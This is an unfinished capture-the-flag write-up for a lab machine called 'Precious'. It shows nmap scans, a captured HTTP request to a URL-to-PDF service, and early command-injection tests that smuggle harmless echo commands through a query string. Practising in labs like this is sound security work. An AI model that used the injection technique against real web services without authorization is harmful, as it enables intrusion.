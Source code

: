 # Precious [In Progress]

## Service and Port Enumeration

Let's start with a basic port scan (no ping)
`nmap -sS -Pn 10.10.11.189`

Nmap gives us:
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Run NSE scripts to find domain name?
```
└─$ sudo nmap -sV -sC -Pn 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-08 22:49 EST
Nmap scan report for 10.10.11.189
Host is up (0.0055s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The IP resolves to `http://precious.htb/`

We add this to our `/etc/hosts` file, and plug the hostname into the browser

---

## The webpage

The main functionality of the page is to submit data entered into a text field - sent as an HTTP POST request

Intercepting the request, we see:
```
POST / HTTP/1.1
Host: precious.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Origin: http://precious.htb
DNT: 1
Connection: keep-alive
Referer: http://precious.htb/
Upgrade-Insecure-Requests: 1

url=
```

So, we supply a url and it will print a pdf with its contents
- This seems like an injection type of vuln
- I could have it, for instance, print the contents of my current directory
    - All i'd need to do is set up a network listener

So let's prop up a python web server: `python3 -m http.server 80`
```
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then we inject our IP address into the text field
```
http://10.10.14.37
```

We get a PDF in a new tab with the contents of our directory!
- So, we can connect to our url, and add a `name` query string 
    - We can delimit a user input `fragment` with `#`
    - We can encapsulate a user input `fragment` with `{<user_input>}`
    - We surround our 'payload' string with `''`'s, and the command itself with tick-marks 
    - Full info on query string syntax is documented in [RFC3986](https://www.rfc-editor.org/rfc/rfc3986)

### Demonstration:

When we try 'http://10.10.14.37/?name=#{`echo hello`}', we get the following:
```
Directory listing for /?name=#{`echo hello`}
```

This is not the output we were hoping for, let's wrap it in single quotes

When we try '`echo hello`', we get a URL-encoded string:
```
10.10.11.189 - - [17/Dec/2022 11:57:35] "GET /?name=%23%7B'%60echo%20hello%60'%7D HTTP/1.1" 200 -
```
And
```
Directory listing for /?name=#{'`echo hello`'}
```

Also not what we were looking for!
- If we purposely inject a url-encoded character (like a space - `%20`)
    - Will that trick the parser into running the input?

Running "http://10.10.14.37/?name=#{'%20`echo hello`'}", we get:
```
10.10.11.189 - - [17/Dec/2022 12:29:01] "GET /?name= HTTP/1.1" 200 -
```
And
```
Directory listing for /?name=
```

So the instruction looks as though it were processed, but we don't know for sure

